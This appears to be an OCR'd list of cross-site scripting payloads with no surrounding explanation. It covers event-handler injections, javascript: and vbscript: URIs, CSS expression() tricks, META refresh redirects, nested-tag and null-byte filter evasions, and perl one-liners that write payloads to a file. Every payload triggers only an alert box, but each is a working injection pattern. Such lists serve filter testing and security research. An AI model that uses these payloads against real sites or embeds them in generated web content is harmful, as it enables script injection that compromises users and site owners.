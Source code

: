 <body onunload="javascript:alert('XSS');">

<body onLoad="alert('XSS');"

[color=red' onmouseover="alert('xss')"]mouse over[/color]

"/></a></><img src=1.gif onerror=alert(1)>

window.alert("Bonjour !");

<div

style="x:expression((window.r==1)?'':eval('r=1;alert(String.fromCharCode(88,83,83));'))">

<iframe<?php echo chr(11)?> onload=alert('XSS')></iframe>

"><script alert(String.fromCharCode(88,83,83))</script>

'>><marquee><h1>XSS</h1></marquee>

'">><script>alert('XSS')</script>

'">><marquee><h1>XSS</h1></marquee>

<META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript:alert('XSS');\">

<META HTTP-EQUIV=\"refresh\" CONTENT=\"0;
URL=http://;URL=javascript:alert('XSS');\">

<script>var var = 1; alert(var)</script>

<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

<?='<SCRIPT>alert("XSS")</SCRIPT>'?>

<IMG SRC='vbscript:msgbox(\"XSS\")'>

" onfocus=alert(document.domain) "> <"

<FRAMESET><FRAME SRC=\"javascript:alert('XSS');\"></FRAMESET>

<STYLE>li {list-style-image: url(\"javascript:alert('XSS')\");}</STYLE><UL><LI>XSS

perl -e 'print \"<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>\";' > out

perl -e 'print \"<IMG SRC=java\0script:alert(\"XSS\")>\";' > out

<br size=\"&{alert('XSS')}\">

<scrscriptipt>alert(1)</scrscriptipt>

</br style=a:expression(alert())>

</script><script>alert(1)</script>

"><BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

[color=red width=expression(alert(123))][color]

<BASE HREF="javascript:alert('XSS');//">

Execute(MsgBox(chr(88)&chr(83)&chr(83)))<
